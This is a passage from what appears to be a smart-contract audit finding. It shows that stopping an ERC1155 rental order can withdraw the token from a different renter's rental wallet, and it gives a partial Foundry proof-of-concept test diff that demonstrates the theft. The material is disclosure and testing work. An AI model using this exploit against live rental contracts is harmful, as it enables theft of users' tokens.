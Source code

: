 ```solidity
                )
            );
    }
```

Since an ERC1155 token can be present in multiple rental wallets, this makes it possible for an attacker to withdraw the rented token from a different rental wallet when stopping a rental order. 

### POC Test
Apply the following diff and run `forge test --mt testHash_StealFromOtherRentalWallet`

Withdrawing from another rental wallet test
```diff
diff --git a/test/integration/StopRent.t.sol b/test/integration/StopRent.t.sol
index 3d19d3c..3f646f3 100644
--- a/test/integration/StopRent.t.sol
+++ b/test/integration/StopRent.t.sol
@@ -6,6 +6,8 @@ import {Order} from "@seaport-types/lib/ConsiderationStructs.sol";
 import {OrderType, OrderMetadata, RentalOrder} from "@src/libraries/RentalStructs.sol";
 
 import {BaseTest} from "@test/BaseTest.sol";
+import {Errors} from "@src/libraries/Errors.sol";
+import {console} from "forge-std/Test.sol";
 
 contract TestStopRent is BaseTest {
     function test_StopRent_BaseOrder() public {
@@ -65,6 +67,97 @@ contract TestStopRent is BaseTest {
         assertEq(erc20s[0].balanceOf(address(ESCRW)), uint256(0));
     }
 
+        function testHash_StealFromOtherRentalWallet() public {
+        // alice lends erc1155
+        createOrder({
+            offerer: alice,
+            orderType: OrderType.BASE,
+            erc721Offers: 0,
+            erc1155Offers: 1,
+            erc20Offers: 0,
+            erc721Considerations: 0,
+            erc1155Considerations: 0,
+            erc20Considerations: 1
+        });
+
+        // finalize the order creation
+        (
+            Order memory orderAliceBob,
+            bytes32 orderHashAliceBob,
+            OrderMetadata memory metadataAliceBob
+        ) = finalizeOrder();
+
+        // bob rents it
+        createOrderFulfillment({
+            _fulfiller: bob,
+            order: orderAliceBob,
+            orderHash: orderHashAliceBob,
+            metadata: metadataAliceBob
+        });
+
+        // finalize the base order fulfillment
+        RentalOrder memory rentalOrderAliceBob = finalizeBaseOrderFulfillment();
+
+        // carol creates order for the same asset 
+        createOrder({
+            offerer: carol,
```
